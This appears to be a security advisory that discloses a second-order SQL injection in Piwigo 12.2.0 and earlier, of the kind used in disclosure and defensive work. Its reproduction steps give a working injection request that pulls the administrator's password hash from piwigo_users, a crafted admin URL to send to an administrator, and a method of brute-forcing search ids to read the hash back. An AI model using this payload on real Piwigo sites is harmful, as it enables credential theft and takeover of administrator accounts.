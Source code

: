 ## Second-Order SQL Injection Vulnerabilities in Piwigo 12.2.0
<u>**Affected Version : <=12.2.0**</u>

A Second-Order SQL injection exists in Piwigo before 12.2.0. 
An attacker can use the function of search to insert some sql injection payload into the piwigo_search table and then use the id retrieved to generate an evil URL. 
 When an administrator open the URL,the sql injection will be triggered. An attacker can exploit the vulnerabilities to gain access to the connected MySQL database.

**Steps to Reproduce:**

**Stepyi 1**
Request `http://127.0.0.1/qsearch.php?q[test'),((select concat("a:1:{s:1:\"q\";s:41:\"password:",(select mid(password,1,32) from piwigo_users where id%3d1),"\";}")))%23]=1`
And then it will be redirected to `http://127.0.0.1/index.php?/search/${id}`
Record the value of the id.

**Step 2**
Generate the URL `http://127.0.0.1/admin.php?page=history&search_id=${id}&user_id=1` (Replace the ${id} into the id that we have gotten last step).

And then send the URL to the administrator.

**Step 3**
When an administrator open the URL above,a piece of data that contains the password of the administrator account will be inserted into the piwigo_search table.If we want to retrieve the data,we need to know the id of the data that has been inserted into the piwigo_search table.
 Then we can request `http://172.20.10.8/index.php?/search/${id}` to  retrieve the password of the administrator.
![2](21.png)
Because the id is incremental,we can just bruteforce it.
